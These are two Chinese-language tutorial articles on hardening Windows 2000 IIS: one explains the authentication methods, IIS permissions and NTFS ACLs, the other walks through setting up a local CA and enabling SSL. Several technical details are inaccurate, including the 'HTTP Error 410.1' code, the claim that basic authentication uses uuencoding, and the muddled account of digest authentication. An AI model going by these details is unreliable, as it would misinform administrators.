

如果你选择的和默认设置不同，在点击“应用”之后，会弹出一个继承覆盖的对话框，它是要你选择哪些子节点要继承你为它的父节点做的默认设置。当然，在默认的情况下，所有的子节点都会自动继承，如图 6 所示。

如果你想为每一个文件配置 IIS 身份验证，也是可以的，那就要打开 MMC 里你所要配置的文件的属性的目录安全性，配置方法和上面一样。

下面我们就来看看每一种身份验证的具体情况。

### 第一，匿名访问

大家知道，我们在安装 IIS 的时候，系统就为我们自动生成了一个用户账号：Internet 来宾账号。我们来看看这个账号的属性吧：它的用户名是机器的名称，这个用户不可以更改口令，口令也不会过期，它是 Guest 工作组的成员。

如果按照系统默认的设置是很危险的，因为在验证方法中，默认设置的是让匿名进入的，再看看本地安全策略里的东西，如图 7 所示。

是不是很危险啊，可以想象哦，很多提升权限就是从这个账号开始的，具体的文章这里就不介绍了，可以去 www.ttian.net 找找。

所以你可以在验证方法里更改这个设置，你可以更改这个账号的用户名，或者直接禁止访问。最后要提醒大家的是，因为 Internet 来宾账号是属于 Guest 组的，所以你在更改 Guest 组权限的时候，Internet 来宾账号会继承 Guest 的设置。所以，在允许匿名访问前，要看清楚 Guest 组的权限。

### 第二，基本身份验证

基本身份验证是用户身份验证的标准 HTTP 方法，绝大多数 Web 浏览器都支持。当你在验证方法中选择了基本身份验证的话，当客户端要访问一个虚拟服务器或者虚拟目录或单独文件时，会看到下面的对话框，如图 8 所示。




当你 3 次输入不对的话，服务器将返回下面的信息：

```
HTTP Error 410.1 Unauthorized Logon Failed
```

但是，基本身份验证并不是一个安全的身份验证，它只能用在安全性要求不高的环境中。在基本身份验证中，用户名和口令通过一个 uuencoding 的进程编码为 ASCII 字符，而这个字符确实没有经过加密，所以用一个简单的 Sniffer 就可以监听得到。具体的做法许多安全站点上都有，可以参考一下。

在使用这种方法的时候要注意，有些浏览器，如 Netscape Navigator 是无法使用的。

### 第三，Digested 身份验证

Digested 身份验证是在 Basic Clear 文本前的一个步骤，在这个文本中，通过因特网以哈希格式发送口令。Digested 身份验证并不是因特网标准，只有 Internet Explorer 5.0 以上的版本支持它访问那些由 Windows 2000 控制器控制的域。但是值得注意的是，Digested 身份验证将口令作为文本文件储存在域控制器上，这个文件用来比较 IIS 发送的散列。通过限制访问来保证这个文件的安全性。所以说，这个验证的安全性也不是很高，原因大家都知道了吧。

### 第四，配置 Windows 综合身份验证

这是最后一个 IIS 身份验证了。如果用户是合法的域用户登录到 Windows 2000 系统，那么综合安全进程是对用户透明的；用户只要访问资源的话，就会有对话框对他进行身份验证。通过以后才可以有访问权限，以后再访问就不需要二次验证了。当然，要实现这种验证的前提是域控制器必须可以访问！如果一个成员组的人要登录到非 Windows 2000 系统，他会看到一个要求输入网络密码的对话框，必须输入有效的 Windows 2000 用户名和密码才可以访问。要注意的是，只有 Internet Explorer 2.0 以上的版本可以支持这种验证。

最后，我想说的是，任何一种口令验证的方法都会被攻破，如果没有好的账号管理策略的话。作为一个称职的网管，必须要有计划地执行账号管理策略，比如适当地检查口令的复杂性，查看有没有多出来的账号。我们看图 9：



它是在本地安全策略里设置的。

以上我们提到的 4 种身份验证可以综合起来使用，但是，这是有优先级别的。级别的高低是你看到的 4 种策略从上到下来排列的！

## 三、IIS 权限的问题

配置 IIS 权限是在 Internet 服务管理器中相应的虚拟服务器，或者虚拟目录、目录、文件的属性中的主目录、虚拟目录、目录和文件中设置，如图 10（这是为虚拟服务器配置 IIS 权限）所示。

IIS 提供了 2 种访问权限来限制访问：一个是读，一个是写。关于读写的问题大家一定不陌生吧：）

当然，如果有脚本存在的话，还会包括“不可以”、“可执行脚本”、“可执行脚本和程序” 3 种类别。具体来说，我们对不同的资源推荐不同的 IIS 权限，具体如下：



- 1. 对于静态的 Web 内容，可以采用可读，但不可以执行权限；
- 2. 对于动态的 Web 页面，可以采用可读，也可以执行脚本；
- 3. 其他脚本内容和动态页面一样配置；
- 4. 是可执行程序，配置应该是可读而且可以执行；
- 5. 数据库内容，配置最好是可读、可写，但不可执行。

注：以上只是我的个人观点而已，若按照上述配置，出现安全问题与我无关。

## 四、NTFS 权限

对于 NTFS 权限，大家一定不陌生。当然，要使用 NTFS 格式，管理 Web 内容必须是 NTFS 格式的。如图 11 所示。



图 11 显示有 6 种基本 NTFS 权限：读取，写入，列出文件夹目录，读取及运行，修改，完全控制。

下面我们来看看如何配置 NTFS 权限：我们先假设一个用户对 NTFS 格式的文件进行访问，他的访问权是由该文件的 ACL（访问控制表）和用户在 Windows 2000 工作组的资格来决定的。如果他对这个文件有完全控制的权限，但是他所在工作组只有读取的权限，那么，他对该文件还是有完全的控制权。相反，如果他对该文件没有访问权，但是他的工作组有读取的权力，结果他还是没有访问权。当我们在修改文件夹 ACL 的时候，也会有继承的问题出现，默认的情况下，它下面的所有文件都会继承它的设置。

对于我们的站点来说，NTFS 权限是应该着重考虑的，我们在建站的第一步就应该在 ACL 中删除虚拟目录和 Web 页面的 Everyone 组，如果没有这样做的话，嘿嘿……忘记著名的 u 漏洞（Unicode 漏洞）了么？以上内容还有许多值得推敲的地方，希望大家指正。IIS 的安全远远不止这么简单，还有很多高深的东西要我们去学习。比如禁止一些不必要的服务、协议，还有禁止目录浏览、观察日志文件、NTFS 审计等。

---

### 用 SSL 给 IIS 的信息传输加把锁

**文/SQL**

**编者按：** 用户与服务器间传递的信息数据加密一直都是网络安全技术中很重要的一部分，现在，越来越多的中小企业或个人都利用 Windows 2000 的 IIS 服务来开设自己的网站，信息加密技术也就更加重要了。本文以 step-by-step 的形式，配以大量图示，对用 SSL 给 IIS 的信息传递加密的方法进行了详细讲解。

由于 NT 系统的易维护性，越来越多的中小企业在自己的网站上和内部办公管理系统上采用它，而且很多都是用默认的 IIS 来做 Web 服务器使用。不能否认近来威胁 NT 系统的几个漏洞都是由于 IIS 配置不当造成的，而且可以预见未来 IIS 还会被发现很多新的漏洞和安全问题，但只要我们做好合理的安全配置还是可以避免很多安全隐患的。本文并没有系统地去讲如何全面安全地配置 IIS，我只是从利用 SSL 加密 HTTP 通道来讲如何加强 IIS 安全的。

IIS 的身份认证除了匿名访问、基本验证和 Windows NT 请求／响应方式外，还有一种安全性更高的认证，就是通过 SSL（Secure Sockets Layer）安全机制使用数字证书。SSL（安全套接层）位于 HTTP 层和 TCP 层之间，建立用户与服务器之间的加密通信，确保所传递信息的安全性。SSL 是工作在公钥密码和私人密钥基础上的，任何用户都可以获得公共密钥来加密数据，但解密数据必须要通过相应的私人密钥。使用 SSL 安全机制时，首先客户端与服务器建立连接，服务器把它的数字证书与公共密钥一并发送给客户端，客户端随机生成会话密钥，用从服务器得到的公共密钥对会话密钥进行加密，并把会话密钥在网络上传递给服务器，而会话密钥只有在服务器端用私人密钥才能解密，这样，客户端和服务器端就建立了一个惟一的安全通道。建立了 SSL 安全机制后，只有 SSL 允许的客户才能与 SSL 允许的 Web 站点进行通信，并且在使用 URL 资源定位器时，输入 `https://`，而不是 `http://`。

简单地说，默认情况下我们所使用的 HTTP 协议是没有任何加密措施的，所有的消息全部都是以明文形式在网络上传送的，恶意的攻击者可以通过安装监听程序来获得我们和服务器之间的通讯内容。这点危害在一些企业内部网络中尤其比较大。对于使用 HUB 的企业内网来说简直就是没有任何安全可言，因为任何人都可以在一台电脑上看到其他人在网络中的活动。对于使用交换机来组网的网络来说虽然安全威胁性要小很多，但很多时候还是会有安全突破口，比如没有更改交换机的默认用户和口令，被人上去把自己的网络接口设置为侦听口，依然可以监视整个网络的所有活动。

所以全面加密整个网络传输隧道的确是个很好的安全措施，很可惜的是现在网络上有关于具体给 IIS 配置 SSL 的文章并不是很多，我简单地摸索了一下，把获得的经验拿出来给大家分享。我是以 Win2000 服务器版本来做例子讲解的。

我们首先需要在控制面板里的“添加删除 Windows 组件”中安装证书服务，如图 1；这个服务在默认安装中是没有安装在系统里的，需要安装光盘来安装。




然后选择“独立根 CA”的安装类型。然后在下一步中给自己的 CA 起一个名字来完成安装就可以了，如图 2。





安装完成后，我们就可以启动我们的 IIS 管理器来申请一个数字证书了，启动 Internet 服务管理器选择我们需要配置的 Web 站点。

选择站点属性里的：**目录安全性 — 安全通信 — 服务器证书**，如图 3。

由于我们是第一次配置，所以选择创建一个新的证书，如图 4。

接着用默认的站点名称和加密位长设置就可以了，如图 5。

其实设置都是非常简单的，再看看图 6-8 几个设置画面就可以很简单的设置好，最好选择一个地方把我们刚才生成的一个请求证书保存起来。完成上面的设置后，我们就要把刚刚生成的服务器证书提交给刚刚在本地安装的证书服务器。在默认情况下，证书服务器完成安装后会在本地的 IIS 里的 Web 服务器里面生成几个虚拟的目录。

我们打开 `http://localhost/CertSrv/default.asp`。


图 9：选择申请证书


图 10：在选择申请类型的时候，选择高级申请。


图 11：选择使用 Base64 的编码方式来提交我们的证书申请

在证书申请的地方把我们刚刚生成的 `certreq.txt` 的内容拷贝进去，然后选择提交，如图 12。


图 12

提交成功以后，会返回一个页面给我们，告诉我们证书已经成功提交了，现在是挂起状态，就是等待 CA 中心来颁发这个证书了，如图 13。

接下来启动管理工具里的“证书颁发机构”，在“待定申请”中找到我们刚刚的申请条目，然后点击鼠标右键，选择“颁发”就可以，如图 14。

颁发成功以后，我们在“颁发的证书”里找到刚才颁发的证书，双击其属性栏目，然后在“详细信息”里选择“将证书复制到文件”，如图 15。

我们还需要把证书导出到一个文件，这里我们把证书导出到 `c:\sql.cer` 这个文件里，如图 16。

回到 IIS 的 Web 管理界面里重新选择服务器证书申请，这个时候出来的界面就是“处理挂起的证书请求”了，如图 17。

确定一切信息正确以后，就可以点击“确定”来完成 SSL 的安装了。

默认安装结束后，SSL 并没有启动，我们需要自己给我们的网站设置 SSL 加密通道，如图 19，并且确定 HTTPS 使用的端口是 443，如图 20。

